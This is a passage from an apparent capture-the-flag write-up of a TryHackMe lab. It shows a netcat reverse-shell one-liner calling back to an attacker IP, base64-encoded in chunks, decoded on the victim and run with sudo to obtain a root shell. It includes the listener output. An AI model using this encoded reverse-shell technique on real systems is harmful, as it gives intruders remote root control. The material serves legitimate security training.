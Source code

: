 ```
# on attacker machine

echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.219 4444 >/tmp/f' | base64;
```

We get the following output... which isn't quite right. 
```
# base64 script for victim...
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAu
MTEuOC4yMTkgNDQ0NCA+L3RtcC9mCg==
```

Lets chunk it down so we don't have a funky link break...

`echo 'rm /tmp/f;mkfifo /tmp/f;' | base64;`
`echo 'cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.219 4444 >/tmp/f;' | base64;`

```
kali@kali:~/Desktop/TryHackMe/picklerick$ echo 'rm /tmp/f;mkfifo /tmp/f;' | base64;
cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Cg==

kali@kali:~/Desktop/TryHackMe/picklerick$ echo 'cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.8.219 4444 >/tmp/f;' | base64;
Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTEuOC4yMTkgNDQ0NCA+L3RtcC9mOwo=
```

And run this on victim machine
```
touch /tmp/a.sh;

echo 'cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Cg==' | base64 -d > /tmp/a.sh;
echo 'Y2F0IC90bXAvZnwvYmluL3NoIC1pIDI+JjF8bmMgMTAuMTEuOC4yMTkgNDQ0NCA+L3RtcC9mOwo=' | base64 -d >> /tmp/a.sh;

sudo sh /tmp/dog.sh;
```

We then we get *root* on our netcat!

```
kali@kali:~/Desktop/TryHackMe/picklerick$ nc -lvp 4444
listening on [any] 4444 ...
connect to [10.11.8.219] from target.thm [10.10.70.157] 42390
/bin/sh: 0: can't access tty; job control turned off                                                                                                        
# whoami                                                                                                           
root                                                                                                               
```

Now to explore and, finally, `cat` the files we were looking for.

#### Exploiting root shell

We can now read the first ingredient that Risk needs
